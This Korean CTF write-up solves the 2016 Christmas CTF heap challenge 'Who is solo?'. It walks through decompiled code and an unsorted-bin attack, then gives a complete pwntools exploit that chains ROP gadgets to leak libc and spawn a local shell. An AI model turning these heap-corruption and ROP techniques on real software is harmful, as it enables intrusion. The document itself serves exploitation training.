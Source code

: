 ```yaml
---
title: "2016 Christmas CTF Who is solo?"
date: 2020-1-19
tags: [Christmas]
categories: [Christmas]
---
```


64비트 바이너리고 Partial RELRO, NX, FORTIFY가 걸려있다.

```
[*] '/vagrant/ctfs/solo'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

메뉴는 5가지고 전형적인 힙 문제의 메뉴다. 

```
1. malloc
2. free
3. list
4. login
5. exit
```

함수들은 아래와 같은 기능들을 한다.

```
sub_4008D0 : print menu
sub_400930 : malloc only 4 chunks
sub_400B60 : free chunk
```

메인함수다.

```c
__int64 __fastcall main(__int64 a1, char **a2, char **a3)
{
  int v4; // [rsp+Ch] [rbp-42Ch]
  void *buf; // [rsp+10h] [rbp-428h]
  char v6; // [rsp+18h] [rbp-420h]
  char v7; // [rsp+20h] [rbp-418h]
  char v8; // [rsp+28h] [rbp-410h]
  char v9; // [rsp+30h] [rbp-408h]

  setvbuf(stdout, 0LL, 2, 0x400uLL);
  sub_4008B0();
  v4 = 0;
  while ( 1 )
  {
    while ( 1 )
    {
      while ( 1 )
      {
        do
        {
          sub_4008D0();
          __isoc99_scanf("%d", &v4);
        }
        while ( v4 == 3 );
        if ( v4 > 3 )
          break;
        if ( v4 == 1 )
        {
          sub_400930(&buf, &v6, &v7, &v8);      // 1. malloc
        }
        else
        {
          if ( v4 != 2 )
            return 0LL;
          sub_400B60(&buf, &v6, &v7, &v8);      // 2. free
        }
      }
      if ( v4 != 4 )
        break;
      if ( qword_602080 )                       // 4. login
      {
        __printf_chk(1LL, "Input password: ");
        read(0, &v9, 2000uLL);                  // vuln
      }
      else
      {
        puts("Login failed");
      }
    }
    if ( v4 != 0x31337 )
      break;
    __printf_chk(1LL, "Modify Data: ");
    read(0, buf, 300uLL);
  }
  return 0LL;
}
```

unsorted bin 취약점을 이용한 문제다. 

malloc(1,200,'AAAA'), malloc(2,200,'BBBB'), malloc(3,200,'CCCC') 할당

free(2) 해주면 fd,bk에는 main_arena+88주소가 적힌다. 

modify메뉴로 free된 2번 청크의 bk를 check해주는 (전역변수-16)로 덮어 fd,bk 조작해 원하는 주소에 값을 씀

전역변수 -16 해주는 이유는 unlink때 `FD->bk=BK; BK->fd=FD;`로 현재 chunk bk + 16위치에 현재 fd값이 들어가기 때문에 덮어쓸 주소 -16해준다. bk에 check -16을 넣어주면 unlink과정에서 check+0에 fd가 들어간다.

malloc(4,200,'DDDD) 할당

그러면 0으로 덮여있던 check는 main_arena + 88의 주소가 들어가있다.

Login 메뉴를 사용가능하다. 취약점 터지는 `read(0, &v9, 2000uLL);` 에서 rop해주면 됨.

> exploit.py

```python
from pwn import *

context.arch = 'amd64'
#context.log_level = 'debug'
e = ELF('./solo')
p = process('./solo')
libc = e.libc
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
prdi = 0x00000000004008a0 # pop rdi ; ret
prsi_r15 = 0x0000000000400d11 # pop rsi ; pop r15 ; ret
check = 0x0000000000602080
main = 0x0000000000400680

# chunk max : 3
def malloc(num,size,data):
	sla('$','1')
	sla(':',str(num)) # Allocate Chunk Number:
	sla(':',str(size)) # Input Size:
	sa(':',data) # Input Data:

def free(num):
	sla('$','2')
	sla(':',str(num)) # Free Chunk number:

def modify(data):
	sla('$','201527')
	sa(':',data) # Modify Data:

def login(pay):
	sla('$','4')
	sla(':',pay) # Input password: 

def exit():
	sla('$','5')

# malloc -> num 1,2,3
malloc(1,200,'AAAAAAAA')
malloc(2,200,'BBBBBBBB')
malloc(3,200,'CCCCCCCC')
# free -> num 2
free(2)
#raw_input()
# modify -> num 2 -> bk(check - 16)
p1 = 'A'*200
p1 += p64(0xd1) # size
p1 += p64(0x0) # fd
p1 += p64(check - 0x10) # bk
modify(p1)
# malloc -> num 4
malloc(4,200,'DDDDDDDD')
p2 = 'A'*0x408
p2 += p64(prdi) + p64(check) + p64(e.plt['puts'])
p2 += p64(main)
login(p2) # leak main_arena + 88
exit()
libc_base = u64(p.recvuntil('\x7f')[-6:] + '\x00\x00') - 88 - 0x3c4b20
log.info('libc_base : ' + hex(libc_base))
# system('/bin/sh')
p3 = 'A'*0x408
p3 += p64(prdi) + p64(libc_base + libc.search('/bin/sh\x00').next()) + p64(libc_base + libc.symbols['system'])
login(p3)
exit()

p.interactive()
```

